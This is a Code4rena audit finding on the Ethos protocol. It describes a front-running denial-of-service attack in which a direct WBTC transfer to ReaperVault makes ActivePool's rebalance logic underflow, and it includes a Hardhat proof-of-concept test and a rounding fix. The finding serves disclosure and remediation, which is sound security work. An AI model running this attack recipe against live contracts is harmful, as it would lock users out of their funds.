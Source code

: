 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- M-13

# [DOS by directly transferring assets to Reaper Vault](https://github.com/code-423n4/2023-02-ethos-findings/issues/246) 

# Lines of code

https://github.com/code-423n4/2023-02-ethos/blob/main/Ethos-Core/contracts/ActivePool.sol#L251
https://github.com/code-423n4/2023-02-ethos/blob/main/Ethos-Core/contracts/ActivePool.sol#L264-L274
https://github.com/code-423n4/2023-02-ethos/blob/main/Ethos-Vault/contracts/ReaperVaultERC4626.sol#L207
https://github.com/code-423n4/2023-02-ethos/blob/main/Ethos-Vault/contracts/ReaperVaultERC4626.sol#L185


# Vulnerability details

## Impact
Attacker can DOS the protocol by directly transferring assets to the ReaperVault. This causes a DOS by underflow in the `ActivePool._rebalance` logic. All core ActivePool functionality will be disabled including all BorrowerOperations functionality and other functionality that relies on ActivePool. This essentially renders the protocol unusable until the protocol team figures out the fix, which is to directly transfer enough assets to ReaperVault to address the underflow. Even then, the attacker can just repeat the attack and make the protocol unusable once again. 

## Proof of Concept
With the below steps, an attacker can DOS the protocol:
1. A trove already exists and an initial deposit to the ReaperVault was already done by the ActivePool.
2. Bob opens a Trove using 190e3 WBTC as collateral (this could be any amount enough to satisfy the minimum borrowing amount of 90 LUSD).
3. Alice (the Attacker) frontruns Bob's openTrove transaction and transfers WBTC directly to the ReaperVault. The amount of assets transferred will be 1 + amount of assets ActivePool will deposit to the ReaperVault based on yieldingPercentage when Bob's openTrove tx is processed.
4. Due to Alice's frontrun, the below branch in `ActivePool._rebalance` will trigger during Bob's `openTrove` transaction:
```solidity
        } else if (vars.netAssetMovement < 0) {
            IERC4626(yieldGenerator[_collateral]).withdraw(uint256(-vars.netAssetMovement), address(this), address(this));
        }
```
`vars.netAssetMovement` will be -1 because of Alice's direct transfer of assets amounting to 1 + ActivePool's deposit amount. 
5. Because of Alice's direct transfer of WBTC to ReaperVault, let's say 1 Vault share is now worth 15 units of WBTC. `ReaperVaultERC4626.withdraw` converts assets to shares with some rounding up behavior and then converts those shares to assets again to get the amount withdrawn. This leads to at least 15 units of WBTC being withdrawn even though `vars.netAssetMovement = 1`. 
6. It is this difference between the amount of assets withdrawn from the ReaperVault and the accounting for total yield amount (`yieldingAmount[_collateral]`) that causes an underflow in subsequent calls to `ActivePool._rebalance`. The underflow happens here:

```solidity
# `vars.sharesToAssets` is now less than `vars.currentAllocated` and this operation will now always revert due to underflow.
# `vars.sharesToAssets` is total assets in the Vault while `vars.currentAllocated` is `yieldingAmount[_collateral]`. 
vars.profit = vars.sharesToAssets.sub(vars.currentAllocated);
```

Here is the [git diff](https://gist.githubusercontent.com/gjaldon/460741803d1cb81b7bd76d7240b4ba24/raw/45601e479353f85baa66160104aaca1a54b7a43e/ethos_reserve_dos.patch) for a test POC that shows the attack. To run the POC, do the following:

1. Copy all contents of the gist to `/tmp/changes.patch`
2. Clone the project repo and cd to the Ethos-Core directory.
3. Run `git apply /tmp/changes.patch` in the Ethos-Core directory.
4. Run `npm install` from the command line from Ethos-Core's root directory
5. Run `npx hardhat test --grep "DOS attack"`. The test should pass

The git diff is huge since it includes copying of Ethos-Vault contracts into the Ethos-Core project so they can be used within the Ethos-Core tests. The test looks like:

```js
    it("DOS attack", async () => {
      await activePool.setYieldingPercentage(collaterals[2].address, 1000, {
        from: owner,
      });
      await activePool.setYieldClaimThreshold(collaterals[2].address, 10000, {
        from: owner,
      });

      await collaterals[2].mint(alice, dec(10_000, 8));
      await collaterals[2].approve(borrowerOperations.address, dec(10_000, 8), {
        from: alice,
      });
      await collaterals[2].mint(bob, dec(10_000, 8));
      await collaterals[2].approve(borrowerOperations.address, dec(10_000, 8), {
        from: bob,
      });
      await collaterals[2].mint(carol, dec(10_000, 8));
      await collaterals[2].approve(borrowerOperations.address, dec(10_000, 8), {
        from: carol,
      });
      await lusdToken.unprotectedMint(alice, dec(100_000, 18));
      await lusdToken.unprotectedMint(bob, dec(100_000, 18));

      await priceFeed.setPrice(collaterals[2].address, dec(100_000, 18));
      const reaperVault = contracts.erc4626vaults[2];
      await reaperVault.grantRole(
        await reaperVault.DEPOSITOR(),
        activePool.address
      );

      await borrowerOperations.openTrove(
        collaterals[2].address,
        dec(190, 3),
        th._100pct,
        dec(90, 18),
        alice,
        alice,
        { from: alice }
      );

      // Alice frontruns Bob's deposit by transfering 300_001 WBTC to ReaperVault. 
      // 300_001 WBTC is 1 unit of WBTC more than the yield that is going to be
      // deposited to the ReaperVault.
      await collaterals[2].transfer(reaperVault.address, 300001, {
        from: alice,
      });

      await borrowerOperations.openTrove(
        collaterals[2].address,
        dec(3, 6),
        th._100pct,
        dec(90, 18),
        bob,
        bob,
        { from: bob }
      );

      // Protocol is now unusable
      await assertRevert(
        borrowerOperations.closeTrove(collaterals[2].address, {
          from: alice,
        })
      );

      await assertRevert(
        borrowerOperations.closeTrove(collaterals[2].address, {
          from: bob,
        })
      );

      await assertRevert(
        borrowerOperations.openTrove(
          collaterals[2].address,
          dec(190, 3),
          th._100pct,
          dec(90, 18),
          carol,
          carol,
          { from: carol }
        )
      );
    });
```


## Tools Used
Manual Review, Hardhat/Truffle, VSCode

## Recommended Mitigation Steps
Changing ReaperVaultERC4626 withdraw to round down instead of up fixes this issue. Below is the fixed code:
```solidity
    function previewWithdraw(uint256 assets) public view override returns (uint256 shares) {
        if (totalSupply() == 0 || _freeFunds() == 0) return 0;
        shares = (assets * totalSupply()) / _freeFunds();
    }
```